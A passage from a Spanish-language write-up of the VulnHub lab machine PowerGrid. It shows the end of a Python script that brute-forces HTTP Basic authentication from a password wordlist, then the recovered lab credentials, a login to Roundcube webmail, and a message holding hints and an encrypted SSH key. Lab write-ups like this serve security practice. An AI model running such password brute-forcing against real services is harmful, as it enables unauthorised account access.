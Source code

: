 ```python
    try:
        r = requests.get(main_url, headers=headers)
        if r.status_code != 401:
            p1.success(f"Contraseña encontrada para {user}: {password}")
    except Exception as e:
        p1.failure(f"Error al hacer la solicitud para {user} - {password}: {e}")

def make_authorization(users, password_file):
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)
    
    for user in users:
        p1.status(f"Probando contraseñas para el usuario: {user}")
        
        with open(password_file, "r") as f:
            for password in map(lambda x: x.strip(), f.readlines()):
                cadena = f"{user}:{password}"
                p1.status(f"Probando la contraseña para {user}: {password}")
                
                cadenab64 = b64encode(cadena.encode())
                make_authentication(cadenab64, user, password, p1)

if __name__ == '__main__':
    users = ["deez1", "p48", "all2"]
    password_file = "/ruta/diccionario.txt"
    make_authorization(users, password_file)

```


Vale tenemos credenciales usuario **p48** y contraseña **electrico** 

> Os lo dejo las creds por si queréis practicar con el script haciendo un diccionario mas pequeño que contenga la pass

Para continuar entramos con el user y la pass, y vemos otro inicio de sesión, probamos las mismas creds y... para dentro.

Una vez dentro podemos ver lo que parece un servicio de email [Qué es roundcube](https://es.wikipedia.org/wiki/Roundcube)
rápidamente nos damos cuenta de que tenemos un mensaje **importante** procedemos a abrirlo y lo que vemos es lo siguiente 
[<img src="/assets/images/vulnhub/PowerGrid/captura3.png">](/assets/images/vulnhub/PowerGrid/captura3.png)
En azul vemos pistas que probablemente nos sirvan de algo mas adelante, aun que ya se intuye por donde pueden ir los tiros, y en amarillo vemos una clave SSH cifrada, la cual sin la clave privada para descifrarla nos sirve de bien poco...
